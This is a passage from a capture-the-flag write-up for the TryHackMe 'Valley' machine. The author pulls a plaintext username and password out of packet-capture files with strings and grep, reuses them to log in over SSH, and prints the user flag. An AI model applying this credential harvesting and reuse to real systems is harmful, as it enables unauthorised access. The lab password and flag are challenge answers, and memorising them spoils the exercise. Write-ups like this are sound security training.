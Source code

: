 We have login success → Figure out what are placing in the current location

```tsx
ftp> ls
229 Entering Extended Passive Mode (|||17429|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06 13:55 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06 13:55 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06 14:06 siemHTTP2.pcapng
226 Directory send OK.
```

Transfer them to the local machine for analyzing

Use `strings` to extract the data from these files and using `grep` to filter the output related to creds such as `pass`,`user`,`username`,`ssh`,…

```tsx
┌──(kali㉿kali)-[~/TryHackMe/TheValley]
└─$ strings siemHTTP2.pcapng| grep "name"
uname=valleyDev&psw=ph0t0s1234&remember=on
```

Despite of the port `37370` running ******vsftpd****** service and port `80` running **********httpd**********, the only left port `22` is running `SSH`. Use the above creds to try to login through `SSH` service

```tsx
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$ id
uid=1002(valleyDev) gid=1002(valleyDev) groups=1002(valleyDev)
```

Get the flag:

```tsx
valleyDev@valley:~$ ls
user.txt
valleyDev@valley:~$ cat user.txt
THM{k@l1_1n_th3_v@lley}
```

# Privilege Escalation → valley

Navigate to `/home` directory:
